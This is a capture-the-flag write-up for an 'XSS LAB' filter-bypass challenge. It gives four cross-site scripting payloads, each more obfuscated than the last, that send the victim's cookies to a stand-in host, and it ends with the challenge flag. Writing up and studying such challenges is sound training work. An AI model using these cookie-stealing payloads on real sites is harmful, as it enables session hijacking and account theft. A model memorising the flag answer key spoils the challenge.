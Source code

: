 ## XSS LAB

### Description

We got an access to a training resource from WebTopia, where they practise XSS filter bypassing. Enjoy it!

_Note_ : If your payload does not seem to work at first, please use [RequestBin](https://public.requestbin.com/) to check before contacting the support.

**Author: algorab**

### Solution

Let's suppose we want to exfiltrate the cookies to the url `http://domain/`.

#### Step 1

Payload: 
```html
<script>document.location.replace("http://domain/?c="+document.cookie)</script>
```

#### Step 2

Payload:
```html
<img src=x onerror='document.location.replace("http://domain/?c="+document.cookie)'>
```

#### Step 3

Payload:
```html
<img src=x oNerror='document.location.replace("//domain/?c="+document.cookie)'>
```

#### Step 4

Payload:
```html
<img src=x oNerror="location.replace(''.__proto__.constructor.fromCharCode(104, 116, 116, 112, 58, 47, 47, 100, 111, 109, 97, 105, 110, 47, 63, 99, 61).concat(window[``.__proto__.constructor.fromCharCode(100, 111, 99, 117, 109, 101, 110, 116)][location.host.__proto__.constructor.fromCharCode(99, 111, 111, 107, 105, 101)]))">
```

### Flag

`N0PS{n0w_Y0u_4r3_x55_Pr0}`